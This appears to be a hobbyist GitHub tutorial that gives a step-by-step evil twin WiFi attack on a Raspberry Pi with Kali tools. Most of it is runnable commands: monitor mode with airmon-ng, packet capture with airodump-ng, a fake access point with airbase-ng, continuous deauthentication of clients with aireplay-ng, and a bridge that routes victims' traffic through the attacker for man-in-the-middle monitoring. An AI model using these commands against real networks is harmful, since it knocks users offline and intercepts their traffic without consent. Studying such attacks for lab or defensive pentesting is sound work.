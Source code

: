 Now we want to get started learning some simple WiFi hacks.

We will:

1. Enable our WiFi adapter for monitoring mode.
2. Perform a simple Evil twin attack which is a kind of Man in the middle attack that will allow your Raspberry Pi to act as an AP to monitor information.

Getting Started:
  1. Plug in and turn on your Raspberry Pi
  2. You will need to install bridge utils.
    - After you've SSH'd into your Raspberry pi, run:
      `apt-get install bridge-utils`

Steps:

  1. To show available wireless interfaces run:
    `iwconfig`

  <img src="/img/iwconfig.jpg"/>

  2. Start monitor mode on the available WiFi device.
    Run:
      `airmon-ng start wlan1`

    Also make note of any alerts like:
      `Found 3 processes that could cause trouble.`

<img src="/img/airmongstart.jpg"/>

      "Kill" those processes, they may interfere they may not, you will need to restart the dhclient later:
        `airmon-ng check kill`
      Then re-run:
        `airmon-ng start wlan1`
  <img src="/img/airmonstart2.jpg"/>

  3. Capture packets from the air using the device you put in monitor mode.
      - Run:
        `airodump-ng wlan1mon`

        <img src="/img/capturepackets.jpg"/>

      - After about half a minute enter `control + c` and open a new terminal

      - Open an SSH session with your Raspberry Pi in that terminal like you did at the beginning.

    4. Create the twin

  Run:
          `airbase-ng -a [BSSID] --essid <ESSID here> -c <channel here> <interface name>`
5. De-authenticate the client
For this I am using my phone as the client that is the target of the attack.
          Run:

              `aireplay-ng --deauth 0 -a [BSSID] wlan1mon --ignore-negative-one`

"0" sets the time interval for sending de-authentication requests. 0 = very fast, 1 = 1/second, 2 = 1 every 2 seconds, etc.

This will disconnect all clients from the network

<img src="/img/deauth.jpg"/>

  6. Give the "evil twin" internet access
    This will provide internet access to the fake Access Point and allow clients to connect thinking they're accessing the real Access Point.

        Run:
          `brctl addbr evil`
        This creates a bridge.

        `brctl addif evil eth0`
        and
        `brctl addif evil at0`

        are the two interfaces being bridged.

        "eth0" is the the internet connection on my Raspberry Pi

        and "at0" is the interface created by airmon-ng that clients will connect to the internet through.

        Next you want to assign IP's to the interfaces with:
        `ifconfig eth0 0.0.0.0 up`
        `ifconfig at0 0.0.0.0 up`

        Bring up the evil interface:
        `ifconfig evil up`

        Auto configure DHCP settings:
        `dhclient evil &`

        This completes the set up for the attack. You can see my phone connecting to the "Evil twin"
<img src="/img/phone.jpg"/>
<br>
<br>

<br>
<br>


You can always return to my Github and check out new tutorials. I will be working on more during the winter break and recommend checking out the following "Black Hat Python" guide if you know some python and want to get started using it for hacking or pentesting on the Kali-Pi we just built.

<img src="img/python.jpg"/>

References
<br>
Chaudhary, Shashwat. “Evil Twin Tutorial.” Kali Linux Hacking Tutorials, 14 July 2014, [www.kalitutorials.net/2014/07/evil-twin-tutorial.html](www.kalitutorials.net/2014/07/evil-twin-tutorial.html).
